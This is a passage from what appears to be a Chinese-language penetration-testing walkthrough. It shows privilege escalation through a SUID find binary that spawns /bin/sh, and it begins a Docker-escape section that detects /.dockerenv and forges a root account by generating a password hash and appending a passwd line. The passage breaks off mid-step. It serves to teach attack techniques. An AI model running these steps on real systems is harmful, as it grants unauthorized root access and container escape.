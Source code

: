 ```
touch getshell
find / -type f -name getshell -exec "whoami" \;
find / -type f -name getshell -exec "/bin/sh" \;
```

<img src=".\图片\Snipaste_2023-05-20_19-59-03.png" alt="Snipaste_2023-05-20_19-59-03" style="zoom: 80%;" />

其它find提权方法请参考：

```http
https://blog.csdn.net/crisprx/article/details/104110725
```

其它suid提权参考：

```http
https://www.freebuf.com/articles/web/288129.html
```

## docker逃逸

### 判断docker

```bash
ls -alh /.dockerenv
-rwxr-xr-x 1 root root 0 May 20 07:44 /.dockerenv
```

### 步骤

#### docker内增加root权限用户

本地kali生成账号密码：

```bash
openssl passwd -1 -salt zf1yolo 123456
```

```
$1$zf1yolo$oULk89mtehUjxLPH9cRSn1
```

仿造root来修改

```
root:x:0:0:root:/root:/bin/bash
```

追加到 passswd 以下内容：
